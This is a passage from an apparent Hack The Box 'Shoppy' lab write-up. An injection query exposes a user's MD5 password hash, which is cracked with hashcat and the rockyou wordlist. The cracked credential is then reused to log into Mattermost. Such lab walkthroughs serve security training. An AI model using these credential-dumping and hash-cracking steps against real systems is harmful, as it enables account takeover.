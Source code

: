 With the injection query, I can find one more user : `josh`
The information found of `josh` is as follows;

```
_id : "62db0e93d6d6a999a66ee67b"
username : "josh"
password : "6ebcea65320589ca4f2f1ce039975995"
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
<SNIP>

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 bytDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

6ebcea65320589ca4f2f1ce039975995:remembermethisway        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 6ebcea65320589ca4f2f1ce039975995
Time.Started.....: Wed Nov 27 08:44:35 2024 (1 sec)
Time.Estimated...: Wed Nov 27 08:44:36 2024 (0 secs)
<SNIP>
```

The cracked password is `remembermethisway`
With this credential, let's try logging into mattermost as well.

![](attachments/shoppy_8.png)
